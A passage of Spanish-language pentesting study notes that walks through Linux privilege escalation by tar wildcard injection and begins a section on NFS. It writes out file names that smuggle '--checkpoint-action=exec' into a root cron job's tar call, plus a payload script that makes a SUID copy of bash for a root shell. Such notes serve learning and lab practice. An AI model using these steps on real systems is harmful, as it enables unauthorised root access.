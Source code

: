 **¿Por qué funciona?**
- `--checkpoint=1`: le dice a tar que ejecute algo tras un archivo
- `--checkpoint-action=exec=...`: define lo que se va a ejecutar
🔫 En este caso: ejecuta `tarshell.sh`, y si `tar` corre como root (porque lo lanza `cron`), entonces el `tarshell.sh` también se ejecutará como root

**💪 MANOS A LA OBRA**

**1. Crear los archivos con nombres sospechosos**
Recordar que deben estar en `/home/user`
```bash
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh tarshell.sh"
```

**NOTA:** Normalmente el uso de guiones `-` y `--` está asociado a la **configuración de flags** en los comandos de linux, por lo que es posible que si solo ejecutamos `touch "--checkpoint=1"` nos interprete el `--checkpoint=1` como una flag del comando **touch** (la cual no existe) en lugar del nombre del archivo, y nos dé errores. 

Para evitarlo, entre el comando y el nombre del archivo colocamos `--` lo cual indica al sistema que **a partir de ese punto interprete todo lo demás como texto plano**. Esto funciona para cualquier comando.

Si después quisiéramos borrar estos archivos con nombres raros, ejecutaríamos un 
`rm -- "--checkpoint=1"`

**2. Crear el payload**

Recordemos que cuando se ejecute el `compress.sh` en el `cron`, se ejecutará internamente un tal `tarshell.sh`, así que vamos a crearlo en `/home/user` con el siguiente contenido
```bash
#!/bin/bash 
cp /bin/bash /tmp/tarbash 
chmod +s /tmp/tarbash
```

Y no olvidemos darle los **permisos de ejecución**
```bash
chmod +x tarshell.sh
```

**3. Ejecución**

Esperamos a que el `cron` haga su trabajo, y finalmente veremos la shell de root con permisos [[2025-07-28-permisos-suid-y-sgid\|SUID]] en `/tmp/` con el nombre `tarbash`
Ejecutamos como siempre
```bash
cd /tmp/
./tarbash -p
```

**🎉 Escalada conseguida**


## 📂NFS
>[!abstract] Definición:
>**NFS** (Network File System) es un protocolo que permite que un sistema Linux monte **directorios compartidos a través de la red**, como si fueran parte de su propio sistema de archivos.
>
🔹 Es decir: otro equipo (servidor NFS) comparte una carpeta, y tu máquina puede montarla y trabajar con ella como si estuviera local.
